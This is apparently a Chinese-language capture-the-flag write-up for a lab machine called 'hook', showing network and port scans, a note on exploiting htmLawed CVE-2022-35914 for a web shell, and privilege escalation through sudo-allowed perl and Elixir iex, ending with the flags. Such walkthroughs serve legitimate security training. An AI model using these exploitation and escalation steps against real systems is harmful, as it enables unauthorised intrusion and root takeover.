## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.26.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.26.1    00:50:56:c0:00:08       VMware, Inc.
192.168.26.2    00:50:56:e8:d4:e1       VMware, Inc.
192.168.26.184  00:0c:29:3c:f5:ac       VMware, Inc.
192.168.26.254  00:50:56:e8:96:d1       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.555 seconds (100.20 hosts/sec). 4 responde
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.26.184       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-19 23:10 EST
Nmap scan report for 192.168.26.184 (192.168.26.184)
Host is up (0.0013s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/htmLawed
|_http-title: Apache2 Debian Default Page: It works
4369/tcp open  epmd    Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|_  nodes: 
MAC Address: 00:0C:29:3C:F5:AC (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.34 seconds
```

## 获取Webshell

  

>貌似是cookie注入rce
>
  
  
  

>web就一个apache，这个注入感觉是关键了，erl工具按一下
>
  

>可以试试msf
>
  
  

>算了，端口都不对，打web吧，不理解
>
  

>存在版本漏洞
>
  
  
  

>不是为啥直接没查到
>
  

>直接利用那shell
>
  
  
  

>看看这个cve的介绍，好像路径是这个
>

  
  
  
  
  
  

>好奇怪
>
  

>手工注入吧，地址链接：https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/
>
  
  
  
  
  
  

>用wget可以实现
>

## 提权
```
www-data@hook:/var/www/html/htmLawed$ sudo -l
Matching Defaults entries for www-data on hook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on hook:
    (noname) NOPASSWD: /usr/bin/perl
```
  
```
www-data@hook:/var/www/html/htmLawed$ sudo -u noname perl -e 'exec "/bin/sh";' 
$ bash
noname@hook:/var/www/html/htmLawed$ cd
noname@hook:~$ sudo -l
Matching Defaults entries for noname on hook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User noname may run the following commands on hook:
    (root) NOPASSWD: /usr/bin/iex
noname@hook:~$ 
```
```
noname@hook:~$ iex -h  
Usage: iex [options] [.exs file] [data]

The following options are exclusive to IEx:

  --dot-iex "FILE"    Evaluates FILE, line by line, to set up IEx' environment.
                      Defaults to evaluating .iex.exs or ~/.iex.exs, if any exists.
                      If FILE is empty, then no file will be loaded.
  --remsh NAME        Connects to a node using a remote shell.
  --no-pry            Doesn't start pry sessions when dbg/2 is called.

It accepts all other options listed by "elixir --help".
```
  

```
noname@hook:~$ sudo /usr/bin/iex
Erlang/OTP 25 [erts-13.1.5] [source] [64-bit] [smp:1:1] [ds:1:1:10] [async-threads:1] [jit:ns]

Interactive Elixir (1.14.0) - press Ctrl+C to exit (type h() ENTER for help)
iex(1)> help
warning: variable "help" does not exist and is being expanded to "help()", please use parentheses to remove the ambiguity or change the variable name
  iex:1

** (CompileError) iex:1: undefined function help/0 (there is no such import)

iex(1)> help()
** (CompileError) iex:1: undefined function help/0 (there is no such import)

iex(1)> h()   

                                  IEx.Helpers                                   

Welcome to Interactive Elixir. You are currently seeing the documentation for
the module IEx.Helpers which provides many helpers to make Elixir's shell more
joyful to work with.

This message was triggered by invoking the helper h(), usually referred to as
h/0 (since it expects 0 arguments).

You can use the h/1 function to invoke the documentation for any Elixir module
or function:

    iex> h(Enum)
    iex> h(Enum.map)
    iex> h(Enum.reverse/1)

You can also use the i/1 function to introspect any value you have in the
shell:

    iex> i("hello")

There are many other helpers available, here are some examples:

  • b/1            - prints callbacks info and docs for a given module
  • c/1            - compiles a file
  • c/2            - compiles a file and writes bytecode to the given path
  • cd/1           - changes the current directory
  • clear/0        - clears the screen
  • exports/1      - shows all exports (functions + macros) in a module
  • flush/0        - flushes all messages sent to the shell
  • h/0            - prints this help message
  • h/1            - prints help for the given module, function or macro
  • i/0            - prints information about the last value
  • i/1            - prints information about the given term
  • ls/0           - lists the contents of the current directory
  • ls/1           - lists the contents of the specified directory
  • open/1         - opens the source for the given module or function in
    your editor
  • pid/1          - creates a PID from a string
  • pid/3          - creates a PID with the 3 integer arguments passed
  • port/1         - creates a port from a string
  • port/2         - creates a port with the 2 non-negative integers passed
  • pwd/0          - prints the current working directory
  • r/1            - recompiles the given module's source file
  • recompile/0    - recompiles the current project
  • ref/1          - creates a reference from a string
  • ref/4          - creates a reference with the 4 integer arguments
    passed
  • runtime_info/0 - prints runtime info (versions, memory usage, stats)
  • t/1            - prints the types for the given module or function
  • v/0            - retrieves the last value from the history
  • v/1            - retrieves the nth value from the history

Help for all of those functions can be consulted directly from the command line
using the h/1 helper itself. Try:

    iex> h(v/0)

To list all IEx helpers available, which is effectively all exports (functions
and macros) in the IEx.Helpers module:

    iex> exports(IEx.Helpers)

This module also includes helpers for debugging purposes, see IEx.break!/4 for
more information.

To learn more about IEx as a whole, type h(IEx).

iex(2)> 
```
 
  

  
  

>可以进行命令注入
>
  

  

>好了结束
>
>userflag:2ee7e8d7f8f2b515c0bdf19d5ce85e17
>
>rootflag:708883f44e1b0e57c8a501e176fad8a9


